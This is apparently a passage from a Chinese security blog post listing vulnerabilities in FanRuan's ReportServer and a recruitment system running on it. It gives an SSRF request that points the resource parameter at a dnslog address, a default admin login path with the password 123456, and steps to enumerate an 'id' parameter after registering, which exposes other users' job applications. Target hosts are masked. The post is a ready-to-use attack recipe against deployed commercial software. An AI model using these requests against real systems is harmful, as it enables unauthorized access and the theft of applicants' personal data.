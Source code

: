 ![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGYicfDqs81xf6p95jt0twSBCia7DvZPbjA8o1RtQqzLVhB0VCwq0ply6IRAftHliabZjQe4N7UR5Qhag/640?wx_fmt=png)

**4.SSRF**

```
http://XXXXXX/ReportServer?op=resource&resource=dnslog地址
```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGYicfDqs81xf6p95jt0twSBCibVFsz3SVAUgIYGEHSKErTUlIxp8g5LzE8TASuzsLvibK2VibFsvzRU0Q/640?wx_fmt=png)

**5. 默认弱口令  
**

```
后台地址：
/ReportServer?op=fr_auth&cmd=ah_loginui&_=1619795319853
口令：
admin / 123456
```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGYicfDqs81xf6p95jt0twSBCUbCvgDC0r1CuQLNkkCMBDAgosYVa3oJhNrBy57pQibhFc8JNknURYAg/640?wx_fmt=png)

**在挖掘这个报表系统漏洞的过程中，发现这个报表系统是搭载在一个招聘系统的后面的  
**

**（感觉这其实是帆软的招聘系统，而这个招聘系统用到了帆软报表）  
**

**有可能也不是这样的，欢迎师傅指正！**  

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGYicfDqs81xf6p95jt0twSBCfIB4FUQY5S9Drdc5F5KxVaEbZAWRb1aDwQo2sx39HxR5w6lzX1vyvQ/640?wx_fmt=png)

**既然帆软报表系统的洞都发了，这个招聘系统的洞也顺便发出来吧！  
**

**访问下面这个地址，**先注册个账户**,  
**

**注意一下 url 中的  
**

**FM_SYS_ID** **参数不是固定的，每个网站是不一样的**

```
https://XXXXXX/project/shyyxy/default/recruitLogin.jsp?FM_SYS_ID=XXXXXX&FM_SYS_CODE=SYSTEM_RECRUIT#
```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGYicfDqs81xf6p95jt0twSBCniatnPibk8ljxJRIGffxBlfAHbgAqvbsrHStGRAYqthbZ1o2IddHjMNQ/640?wx_fmt=png)

**测试账户 XXXXXX XXXXXX  
**

**登录进去后，点击我的申请再抓包，有个** **id** **参数可以遍历。**

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGYicfDqs81xf6p95jt0twSBC0ZIEmvYuiajaPfliccLgoRMib9vPu5ajN744RPD1e5Q9tuiaRFn4CuWy0A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGYicfDqs81xf6p95jt0twSBCLuItnR1kmSKfYTsDm65BNhduY7YRWXDX5zRmmYXXwuxhCcNqZz8PdQ/640?wx_fmt=png)
